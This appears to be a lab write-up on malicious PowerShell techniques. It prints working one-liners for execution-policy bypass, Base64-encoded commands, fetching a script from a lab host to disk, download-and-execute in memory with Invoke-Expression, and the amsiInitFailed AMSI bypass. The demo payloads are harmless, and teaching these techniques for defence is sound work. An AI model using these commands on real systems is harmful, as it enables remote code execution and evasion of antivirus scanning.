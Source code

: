 # Scenario 

This attack falls into the execution phase of Mitre Att&ck and requires initial access to the victim machine via phishing, credential dumping or other methods. This scenario demonstrates the different techniques and tactics attackers use when using powershell maliciously and details the common misconfigurtions that allow these attacks to take place and best practices to secure your network
from malicious powershell use.

# Setup
# Attack Types
1. **Local Powershell script Execution**
   Attacker runs a script that is hosted locally
   Proof of concept: `powershell -ExecutionPolicy Bypass -File .\script.ps1`
   <img width="702" height="389" alt="image" src="https://github.com/user-attachments/assets/970d2cc5-124b-43e6-8074-357a558b6013" />

2. **Base64 Encoded Command**
   Attackers use Base64-encoded PowerShell commands primarily to:
   - Hide what the code is doing
   - Avoid detection by AV/EDR.
   - Bypass restrictions or logging.
   - Execute commands more reliably in remote or automated contexts.
  Proof of concept: `powershell -ExecutionPolicy Bypass -EncodedCommand VwByAGkAdABlAC0ASABvAHMAdAAgACIAaABlAGwAbABvACwAIABXAG8AcgBsAGQAIQAiAAoA`
<img width="860" height="54" alt="image" src="https://github.com/user-attachments/assets/081d264b-6284-4d82-a8e4-ea73c19cbd4a" />


  From this point the commands will be base64 encoded due to the prolific use in attacks. All commands will be executed in the same manner

3. **Download payload to disk for later use**
   Attacker will download payloads and malware for further staging and save them to disk so they can be ran later.
   <img width="849" height="437" alt="image" src="https://github.com/user-attachments/assets/ae623c89-9e75-4b62-883a-629145674136" />

   Proof of concept: `$Text = 'Invoke-WebRequest -Uri "http://192.168.1.105:8080/script.ps1" -OutFile "script.ps1"'`
   
4. **Download and Execute in Memory**
   Attackers will download scripts using the Invoke_WebRequest expression which is passed to Invoke-Expression which will execute the
   script in memory never writing any files to disk. This allows attackers to run commands and deliver full malware capabilities
   including c2 beacons.
   Proof of Concept: `$Text = "Invoke-Expression (Invoke-WebRequest -UseBasicParsing 'http://192.168.1.105/script.ps1')"`
   <img width="851" height="717" alt="image" src="https://github.com/user-attachments/assets/54252204-a5ff-497c-a8e5-662fca9d29ad" />
5. AMSI Bypass

 `[Ref].Assembly`

Accesses the currently running PowerShell assembly (code base).

[Ref] is a .NET class used to reflect over types.

`.GetType('System.Management.Automation.AmsiUtils')`

This loads the internal PowerShell class AmsiUtils, which handles AMSI integration.

 `.GetField('amsiInitFailed','NonPublic,Static')`

This uses .NET Reflection to access a private static field called amsiInitFailed.

That field tracks whether AMSI was successfully initialized in the process.

`.SetValue($null, $true)`

Sets the value of amsiInitFailed to $true, which tricks PowerShell into thinking AMSI has already failed.

As a result, PowerShell skips AMSI scanning for any future code in that session.
<img width="892" height="716" alt="image" src="https://github.com/user-attachments/assets/f9a73d39-e7d2-404f-b64d-7e63b1fac9f8" />

Proof of concept: `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null, $true)
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('AMSI bypass simulated.')
`

  
